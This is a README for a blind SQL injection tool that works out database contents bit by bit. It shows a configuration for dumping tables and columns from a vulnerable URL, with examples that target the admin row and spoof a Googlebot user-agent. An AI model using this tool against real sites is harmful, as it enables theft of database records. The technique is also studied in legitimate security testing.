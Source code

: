 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character. Further efficency is possible in some cases with a few modifications.

Method by **Jelmer de Hen** (https://www.exploit-db.com/papers/17073/)

Implementation coded by **Eclipse** of **Team Salvation** (http://ljdbosgro7jj4z7r.onion)

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration: 

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1",

# Specify cookie (optional)
x.options["cookies"] = "",

# Specify a condition for a specific row, e.g. 'uid=1' for admin (1 = no condition)
x.options["row_condition"] = "1",

# Boolean option for following redirections
x.options["follow_redirections"] = 0,

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)",

# Specify table name to dump
x.options["table_name"] = "table",

# Specify columns to dump
x.options["columns"] = "col1,col2",

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='header'>true</p>"
```

Then:

`x.exploit()`

This returns a 2-dimentional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`
